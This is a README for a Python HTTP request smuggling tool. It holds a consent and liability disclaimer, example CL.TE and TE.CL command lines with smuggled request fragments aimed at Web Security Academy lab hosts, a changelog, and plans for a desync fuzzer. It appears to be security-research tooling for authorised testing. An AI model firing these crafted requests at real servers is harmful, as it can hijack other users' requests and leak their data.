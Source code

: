 # pyhttpsmuggler
Scripts related to web/request smuggling & general web hacking.
*This project is free to use and modify. The three things I ask of those interested in using/modifying/distributing this project is:
1. Users have the explicit consent from target host servers' maintainers to test for vulnerabilities-- as a successful exploit may disrupt web-services and/or leak sensitive user-data.
2. Any derivative project using any component from this project upholds the open-source philosophy with others in the research & development community.
3. Lastly, I ask (well, it's more of a statement really) that I assume no liability or responsibility for any & all potential consequences of others'actions when using this script on a live server instance.*
## General Information
- The keys for the argument list are colored yellow. The values are purple.
- The request body field is colored such that the purple portion denotes the substring of the request covered by the content-length field. The cyan portion denotes the part of the request to be smuggled. 
## Examples
*Note: passing arguments denoted by pairs of quotations (",') is necessary for request fields which may contain spaces or special charachters*
### CL.TE Vulnerability
`python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "35" --body-data ""  --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" --debug "1"`

### TE.CL Vulnerability
`python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "4" --body-data "5c" --smuggled-body-fields "GPOST / HTTP/1.1,Content-Type: application/x-www-form-urlencoded,Content-Length: 15,,x=1,0," --debug "1"`
## Changelog
### 9/4/2021
- Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.
### 9/5/2021
- Implemented a CLI using argparse and the WebRequest class. This introduces robustness and more opportunities for automation since worker threads can easily invoke specially-crafted requests by passing arguments over the CLI under the control of a parent thread or list of exploits to try.
- Updated README with example usage and development logs
# Todo:
## pyhttpsuggler-cli
1.[X] Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
2.[ ] Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks\n
3.[ ] Create a text file with various desync attacks to test on an target webserver and a parser to turn the entries in the file into different requests.
4.[ ] Cleanup the chunk of if/elif/else login in pysmuggler.py:34-94

